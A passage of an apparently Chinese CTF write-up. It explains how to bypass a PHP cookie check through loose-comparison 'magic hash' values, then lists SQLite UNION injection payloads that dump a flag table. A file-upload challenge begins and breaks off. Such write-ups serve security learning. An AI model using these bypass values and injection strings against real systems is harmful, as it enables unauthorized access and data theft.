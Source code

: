         <span class="hljs-keyword">echo</span> <span class="hljs-string">"&lt;html&gt;&lt;head&gt;&lt;title&gt;Admin Page&lt;/title&gt;&lt;/head&gt;&lt;body&gt;Welcome to the admin panel!&lt;br /&gt;&lt;br /&gt;&lt;form name='input' action='admin.php' method='get'&gt;Wallet ID: &lt;input type='text' name='query'&gt;&lt;input type='submit' value='Submit Query'&gt;&lt;/form&gt;&lt;/body&gt;&lt;ml&gt;"</span>;
    }
} <span class="hljs-keyword">else</span> <span class="hljs-keyword">echo</span> <span class="hljs-string">"Sorry, not authorized."</span>;

<span class="hljs-preprocessor">?&gt;</span></span></code></pre>
<p>首先要绕过</p>
<pre class="prettyprint"><code class=" hljs mel"><span class="hljs-keyword">if</span> (isset(<span class="hljs-variable">$_COOKIE</span>[<span class="hljs-string">"auth"</span>])) {  
    <span class="hljs-variable">$auth</span> = <span class="hljs-variable">$_COOKIE</span>[<span class="hljs-string">"auth"</span>];
    <span class="hljs-variable">$hsh</span> = <span class="hljs-variable">$_COOKIE</span>[<span class="hljs-string">"hsh"</span>];  
    <span class="hljs-keyword">if</span> (<span class="hljs-variable">$auth</span> == <span class="hljs-variable">$hsh</span>) {
        <span class="hljs-variable">$auth</span> = <span class="hljs-number">0</span>;
    } <span class="hljs-keyword">else</span> <span class="hljs-keyword">if</span> (sha1((<span class="hljs-keyword">string</span>)<span class="hljs-variable">$hsh</span>) == md5((<span class="hljs-keyword">string</span>)<span class="hljs-variable">$auth</span>)) { <span class="hljs-comment">// </span>
        <span class="hljs-variable">$auth</span> = <span class="hljs-number">1</span>; <span class="hljs-comment">// </span>
    } <span class="hljs-keyword">else</span> {
        <span class="hljs-variable">$auth</span> = <span class="hljs-number">0</span>;
    }
} <span class="hljs-keyword">else</span> {
    <span class="hljs-variable">$auth</span> = <span class="hljs-number">0</span>;
    <span class="hljs-variable">$s</span> = <span class="hljs-variable">$auth</span>;
    setcookie(<span class="hljs-string">"auth"</span>, <span class="hljs-variable">$s</span>);
    setcookie(<span class="hljs-string">"hsh"</span>, sha1((<span class="hljs-keyword">string</span>)<span class="hljs-variable">$s</span>));
}</code></pre>
<p>利用php弱类型比较</p>
<pre class="prettyprint"><code class=" hljs bash"><span class="hljs-variable">$hsh</span> = <span class="hljs-string">'aaroZmOk'</span>
<span class="hljs-variable">$auth</span> = <span class="hljs-string">'QNKCDZO'</span></code></pre>
<p>登进admin <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318202439599?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
接下来就是简单的sqlite 注入 <br>
猜测为 id字段 flag表 当然也可以利用查表得到</br></br></img></br></p>
<pre class="prettyprint"><code class=" hljs sql">1 union <span class="hljs-operator"><span class="hljs-keyword">select</span> group_concat(tbl_name) <span class="hljs-keyword">from</span> sqlite_master limit <span class="hljs-number">1</span>,<span class="hljs-number">1</span>-- 暴表
<span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-keyword">sql</span> <span class="hljs-keyword">from</span> sqlite_master <span class="hljs-keyword">where</span> tbl_name=<span class="hljs-string">"flag"</span> <span class="hljs-keyword">and</span> type=<span class="hljs-string">"table"</span> limit <span class="hljs-number">1</span>,<span class="hljs-number">1</span>-- 爆字段
<span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> group_concat(id) <span class="hljs-keyword">from</span> flag limit <span class="hljs-number">1</span>,<span class="hljs-number">1</span>--暴内容</span></code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318203051044?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h1 id="pictures-wall">pictures‘ wall</h1>
<p>一道上传题，上传类的题目做得也不少了，都是一个套路。 <br>
看看这题 <br>
首先找到上传窗口，根据题目提示利用host：127.0.0.1登录成功找到上传界面 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318205647644?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
我们在上传时改包 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318210015648?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>